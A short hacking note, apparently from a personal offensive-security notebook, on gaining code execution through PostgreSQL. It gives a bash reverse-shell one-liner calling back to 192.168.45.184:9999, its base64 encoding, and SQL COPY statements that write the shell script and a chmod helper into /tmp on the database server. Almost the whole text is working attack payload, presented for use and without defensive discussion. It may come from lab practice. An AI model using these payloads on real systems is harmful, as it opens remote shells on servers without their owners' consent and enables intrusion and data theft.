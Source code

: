 ```yaml
---
{"dg-publish":true,"permalink":"/1-hack-like-a-script-kiddie/web/postgres-sql/psql-payload-rce/","noteIcon":"","created":"2025-04-15T14:11:19.611-04:00"}
---
```















```

echo -n 'bash -i >& /dev/tcp/192.168.45.184/9999 0>&1' | base64


```

Create tmp/shell.sh
```
COPY (SELECT convert_from(decode('YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjE4NC85OTk5IDA+JjE=
', 'base64'), 'utf-8')) TO '/tmp/shell.sh';

```
create a /tmp/make_executable.sh 


```
COPY (SELECT convert_from(decode('Y2htb2QgK3ggL3RtcC9zaGVsbC5zaA==', 'base64'), 'utf-8')) TO '/tmp/make_executable.sh';



```
